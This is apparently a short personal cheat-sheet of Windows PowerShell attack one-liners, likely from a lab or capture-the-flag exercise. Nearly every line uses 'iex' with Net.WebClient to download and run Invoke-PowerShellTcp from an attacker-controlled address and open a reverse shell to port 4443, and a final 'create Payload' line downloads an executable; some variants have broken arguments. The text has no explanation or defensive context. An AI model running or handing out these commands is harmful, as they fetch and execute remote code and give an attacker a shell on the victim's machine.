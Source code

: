 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 
 ## create Payload
 
 powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.249.117:8001/learn.exe','learn.exe')"
 
 